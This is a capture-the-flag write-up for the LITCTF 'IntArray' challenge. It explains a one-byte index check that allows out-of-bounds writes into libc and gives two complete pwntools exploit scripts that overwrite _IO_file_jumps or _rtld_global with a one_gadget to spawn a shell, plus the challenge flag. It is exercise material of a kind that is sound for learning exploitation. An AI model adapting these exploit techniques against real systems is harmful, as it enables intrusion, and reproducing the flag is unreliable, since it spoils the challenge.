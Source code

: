 # LITCTF - IntArray

Original challenge link: https://lit.lhsmathcs.org/ctfchal

You can as well download challenge files in my repo: [intarray.zip](intarray.zip)

There will be 4 files in zip:
- intarray
- ld-2.31.so
- libc-2.31.so
- libpthread-2.31.so

Download and extract, the file is already patched so we just start!

# 1. Find bug

First, let's check the basic information of binary:

```bash
$ file intarray
intarray: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter ./ld-2.31.so, for GNU/Linux 3.2.0, BuildID[sha1]=b8b5ebe5f2437df765b278c64ae0b64778dedde1, not stripped
```

This is a 64-bit binary without being stripped. Next, we will decompile the file with ida to get the main flow.

The program read the first number as a maximum number and then read a second number in range from `0` to that maximum number. But when it compare the second number with the maximum number, it just compare 1 byte of the second number with the maximum number:

![bug-at-check-index.png](images/bug-at-check-index.png)

Look at that casting! If we enter the first number with value 255 (hex format is `0xff`) and then we enter the second number with value 256 (hex format is `0x100`), we still can pass the check because `0x00` lower than `0xff`.

Then we will enter a third number and it will tatke the value at `array[<second number>]` add with the third number we've just inputted:

![input-third-nuber.png](images/input-third-nuber.png)

But that array is an array inside a libc range address, we can get that when debug:

![get-array-address.png](images/get-array-address.png)

After that, we can see null for 2 addresses with the same bug when checking index.

Summary: We can edit the value of an address, which is in range of libc, by adding with the number we input, or offset. Then we can set null for 2 addresses which are also in range of libc address.

# 2. Idea

I solved this challenge with an unintended way by overwriting `_IO_file_jumps + 0x20` with address of one gadget and when program execute `getchar()`, we can get shell easily.

The intended way is to call `abort` and in there, it will execute a function `_dl_addr` which will call to `_rtld_global + 3848` with `_rtld_global` is changable. And when it jump to `_rtld_global + 3848`, r12 is already null, r15 is `_rtld_global` so we can use the last input to set `_rtld_global` to null and set `_IO_file_jumps` of stdout so it will trigger abort and execute `_rtld_global + 3848` with one gadget constraint:

```bash
0xe6aee execve("/bin/sh", r15, r12)
constraints:
  [r15] == NULL || r15 == NULL
  [r12] == NULL || r12 == NULL
```

# 3. Exploit

Just debug and you will get that.

Way 1 (unintended):

```python
#!/usr/bin/python3

from pwn import *

exe = ELF('./intarray', checksec=False)

### Idea ##########################################################
# Overwrite _IO_file_jumps+0x20 with one_gadget because getchar() #
# will execute as this flow:                                      #
# getchar() --> _IO_default_uflow --> _IO_file_jumps+0x20         #
#                                                                 #
# When one_gadget is executed, rsi and rdx is null so one_gadget  #
# we use is:                                                      #
# 0xe6af4 execve("/bin/sh", rsi, rdx)                             #
# constraints:                                                    #
#   [rsi] == NULL || rsi == NULL                                  #
#   [rdx] == NULL || rdx == NULL                                  #
###################################################################

if args.LOCAL:
	p = process(exe.path)
else:
	p = remote('litctf.live', 31784)
p.sendlineafter(b'store?', b'256')

# s:      0x7f061b98f6e0
# s[???]: 0x7f061bba44c0           # _IO_file_jumps+0x20
# Value before:  0x7f061ba4aba0
# Value after:   0x7f061ba9daf4    # one gadget
p.sendlineafter(b'index:', f'{272828}'.encode())
p.sendlineafter(b'change:', f'{339796}'.encode())

p.interactive()
```

Way 2 (intended):

```python
#!/usr/bin/python3

from pwn import *

exe = ELF('./intarray', checksec=False)

### Idea ############################################################
# Overwrite _rtld_global+3848 with one_gadget because we want to    #
# trigger abort which it's flow is:                                 #
# puts() --> if _IO_file_jumps of stdout not in correct range       #
#        --> _dl_addr --> _rtld_global+3848                         #
#                                                                   #
# When one_gadget is executed, r12 is already null, r15 is          #
# _rtld_global and it's not null but we can set _rtld_global null   #
# so one_gadget we will use is:                                     #
# 0xe6aee execve("/bin/sh", r15, r12)                               #
# constraints:                                                      #
#   [r15] == NULL || r15 == NULL                                    #
#   [r12] == NULL || r12 == NULL                                    #
#####################################################################

if args.LOCAL:
	p = process(exe.path)
else:
	p = remote('litctf.live', 31784)
p.sendlineafter(b'store?', b'255')

### Overwrite "_rtld_global + 3848" with one_gadget because 
### it will be called when it's in _dl_addr
# s:      0x7f9e77ca76e0
# s[???]: 0x7f9e77ef1f68           # _rtld_global + 3848
# Value before:  0x7f9e77cb6fc0
# Value after:   0x7f9e77db5aee    # one gadget
p.sendlineafter(b'index:', f'{300305}'.encode())
p.sendlineafter(b'change:', f'{1043246}'.encode())

### Set null for _rtld_global because it's r15
# s:      0x7f9e77ca76e0
# s[???]: 0x7f9e77ef1060           # _rtld_global
p.sendlineafter(b'(y/N)', b'y')
p.sendlineafter(b'index:', f'{299824}'.encode())

### Set null for _IO_jump_files of stdout because we want to trigger 
### abort
# s:      0x7f9e77ca76e0
# s[???]: 0x7f9e77ebb778           # _IO_file_jumps of stdout
p.sendlineafter(b'(y/N)', b'y')
p.sendlineafter(b'index:', f'{272403}'.encode())

p.interactive()
```

# 4. Get flag

![get-flag-1.png](images/get-flag-1.png)

![get-flag-2.png](images/get-flag-2.png)

Flag is `LITCTF{1s_17_p0ss1bl3_w1th_l3ss_3d17_0r_cl34r}`